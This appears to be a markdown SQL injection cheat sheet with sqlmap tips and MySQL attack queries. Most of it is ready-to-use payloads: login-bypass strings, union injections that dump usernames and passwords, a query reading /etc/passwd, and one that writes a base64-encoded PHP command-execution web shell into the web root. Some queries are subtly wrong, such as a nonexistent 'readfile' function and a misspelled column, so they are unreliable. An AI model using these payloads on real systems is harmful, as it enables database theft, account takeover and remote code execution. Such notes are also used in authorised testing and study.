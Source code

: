 # SQLi
 - [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## SQLMap
### Tips
- Copy the request as cURL in the devtools and change curl to sqlmap
- Save burp requests to text files and load them in sqlmap with `sqlmap -r request.txt`
### Don't ask for user input
```bash
sqlmap ... --batch
```
### Send traffic through proxy
```bash
sqlmap ... --proxy http://127.0.0.1:8080
```
### Save traffic to file
```bash
sqlmap ... -t ./out.txt
```
### Verbosity
#### Show errors
```bash
sqlmap ... --parse-errors
```
#### Verbose output
```bash
sqlmap ... -v 6
```

## Mysql
- [payload all the things mysql](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
### Fingerprint
```sql
select @@version
select sleep(3)
```
#### Enum dbs
```sql
select schema_name from information_schema.schemata
```
#### Enum tables
```sql
select table_name,table_schame from information_schema.tables where table_schema='zzz'
```
#### Enum columns
```sql
select column_name,table_name from information_schema.columns where table_name='zzz' and table_schema='zzz'
```
#### Enum current user
```sql
select user();
```
#### Enum current user privileges
```sql
select grantee,privilege_type FROM information_schema.user_privileges WHERE grantee="'<user>'@'<host>'"
```
#### Enum current user write file
Check if value is empty for access, whereas NULL means no access.
```sql
select variable_name,variable_value from information_schema.global_variables where variable_name='secure_file_priv'
```
### Read file
```sql
select readfile('/etc/passwd')
```
### Write file
```sql
select from_base64("PD9waHAgc3lzdGVtKCRfUkVRVUVTVFswXSk7ID8+") into outfile '/var/www/html/pwn.php'
```
### Login bypass
```sql
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
```
### Some union injection examples
```sql
' union select 1,username,password,4,5,6 from db1.users;-- -
```
```sql
' union select 1,user(),3,4,5,6;-- -
```
```sql
' union select 1,sleep(3),3,4,5,6;-- -
```
```sql
' union select 1,readfile("/etc/passwd"),3,4,5,6;-- -
```
